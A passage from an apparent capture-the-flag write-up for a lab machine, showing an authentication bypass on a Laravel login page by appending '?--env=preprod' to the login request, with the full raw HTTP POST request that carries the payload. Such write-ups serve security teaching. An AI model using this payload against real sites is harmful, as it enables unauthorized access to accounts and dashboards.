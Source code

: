 ![](images/2025-05-04_15-24_80_authentication_bypass_payload_research.png)

With this information put into our `payload` we were able to `bypass authentication` and `login` directly to the `dashboard`.

```console
?--env=preprod
```

```shell
POST /login?--env=preprod HTTP/1.1
Host: environment.htb
Content-Length: 106
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Origin: http://environment.htb
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://environment.htb/login
Accept-Encoding: gzip, deflate, br
Cookie: XSRF-TOKEN=eyJpdiI6IjFNcTI4bTRKTUVqMWJBMmRwcVFGdGc9PSIsInZhbHVlIjoiUnUyVHl1SnZOd2JpQ0tWRzJTaEJ2aUU5OUZWRm5qMWJDMVpuaVRobjFZYjQ0UmIvV2EvUFd4ZElyR0hVSjF1amRkRjhzYU5rUDlzb3g4dzgwZ2NYTjZHY2owQ0p1b1ZFTzBOekZPTG1NSDRRbmU3VUd0OEx4VHAxSzJIcTlKT20iLCJtYWMiOiJiMWQ0NDI0YzM4MjEzMDFjOGIzMDUyN2RmY2RjNzdjMjcxMjM4Y2E1ZDkxZDcwMmI3NTg4ODYxYzg2MmE0M2MyIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6ImlwZG5UaVBQSnRzWVNMMHR5d0VtNmc9PSIsInZhbHVlIjoiMURDUG1BZHBFRjVENTNmSDdCS0swcFJ2aFFHeVhTeFJPQS9mVGppNlVRWFpuNVptQlFvMUN6UytRUk5FOXRRL1RNVWY2T2RrTTc0UjMwMXFvM0FXOTFrQ3ppejVXdXJwSDlEZGlNay9HU0RCbU50QmVOVEpDWUpSVFpMV1JGLzEiLCJtYWMiOiI3ZGYwZTUxYmQzZTAyNTI1ODNkNjY4NjhkZGRjOTBkYTAxYzk3YzM0MjdiYTExYjYyOTViZTQ1M2EyZmUyZWYwIiwidGFnIjoiIn0%3D
Connection: keep-alive

_token=3sE4H6uyOrYbHEx1olAW8IlzelYf9CsG2OI8Frd9&email=foobar%40foobar.local&password=foobar&remember=False
```
